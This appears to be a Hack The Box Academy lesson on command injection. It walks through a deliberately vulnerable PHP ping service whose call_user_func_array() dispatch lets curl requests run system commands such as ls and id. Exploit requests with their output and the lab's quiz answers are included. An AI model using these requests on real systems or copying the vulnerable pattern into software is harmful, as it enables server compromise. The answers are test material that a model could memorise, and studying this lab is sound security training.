 # Command Injection

Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.

You may have come across connectivity-checking web services in router admin panels or even websites that merely execute a ping command towards a website of your choosing.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target service and follow along.

Suppose we are assessing such a connectivity-checking service residing in `http://<TARGET IP>:3003/ping-server.php/ping`. Suppose we have also been provided with the source code of the service.

**Note**: The web service we are about to assess does not follow the web service architectural designs/approaches we covered. It is quite close to a normal web service, though, as it provides its functionality in a programmatic way, and different clients can use it for connectivity-checking purposes.

Code: php

```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

* A function called _ping_ is defined, which takes two arguments _host\_url\_ip_ and _packets_. The request should look similar to the following. `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`. To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request.
  * ```shell-session
    AIceBear@htb[/htb]$ sudo tcpdump -i tun0 icmp
     tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
     listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
     11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
     11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
     11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
     11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
     11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
     11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
    ```
* The code also checks if the _packets_'s value is more than 4, and it does that via an array. So if we issue a request such as `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333`, we're going to get an _Only 1-4 packets!_ error.
* A variable called _cmd_ is then created, which forms the ping command to be executed. Two values are "parsed", _packets_ and _host\_url_. [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php) is used to escape the _host\_url_'s value. According to PHP's function reference, _escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. This function should be used to escape individual arguments to shell functions coming from user input. The shell functions include exec(), system() shell\_exec() and the backtick operator._ If the _host\_url_'s value was not escaped, the below could happen. ![image](https://academy.hackthebox.com/storage/modules/160/1.png)
* The command specified by the _cmd_ parameter is executed with the help of the _shell\_exec()_ PHP function.
* If the request method is GET, an existing function can be called with the help of [call\_user\_func\_array()](https://www.php.net/manual/en/function.call-user-func-array.php). The _call\_user\_func\_array()_ function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows. `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

You can test the command injection vulnerability as follows.

Command Injection

```bash
AIceBear@htb[/htb]$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```

**Questions**

Exploit the command injection vulnerability of the target to execute an "id" command. Submit the privileges under which the server is running as your answer. Answer options (without quotation marks): "user", "www-data", "root"

```bash
curl http://10.129.202.133:3003/ping-server.php/system/id
uid=0(root) gid=0(root) groups=0(root)
root
```

To execute commands featuring arguments via http://:3003/ping-server.php/system/{cmd} you may have to use \_\_\_\_\_\_. Answer options (without quotation marks): "Encryption", "Hashing", "URL Encoding"

```
URL Encoding
```
